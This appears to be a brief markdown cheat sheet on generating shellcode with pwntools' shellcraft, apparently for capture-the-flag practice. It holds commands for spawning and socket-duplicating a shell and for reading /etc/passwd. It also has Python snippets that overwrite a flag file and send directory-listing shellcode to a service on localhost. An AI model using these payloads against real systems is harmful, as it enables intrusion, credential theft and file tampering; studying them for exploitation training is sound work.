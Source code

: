 ## Shellcodes with pwntools

```
arch = [ 'linux', 'amd64', 'arm' ]

shell = 'sh', 'dupsh'
io    = 'cat', 'write_file', 'ls', 'sendfile'
nw    = 'connectback'
```


### sh 
``shellcraft -c i386 sh -f r | strace -ifx demo32 -``

### dupsh
``shellcraft -c i386 dupsh 1 -f r | strace -ifx demo32 -``

### cat
``shellcraft -c i386 cat /etc/passwd  -f r | strace -ifx demo32 -``


### write_file = open_file + write_file 

```python
s = 'this file has been overwritted by me'

sc = ''
sc += asm(shellcode.open_file('./flag', 0x2))
sc += asm(shellcode.write_file(3, s, len(s)))
```

### ls
``shellcraft -c i386 ls /etc -f r | demo32 -``

```python
sc += asm(shellcode.ls('/etc/', out_fd=4))

s = remote('localhost', 31337)
s.send(sc + '\n')
while 1:
    rv = s.recv(1540)
    if len(rv) == 0:
        break
    print parse_getdents(rv)
```

### sendfile
``empty yet``

### connectback
``empty yet``
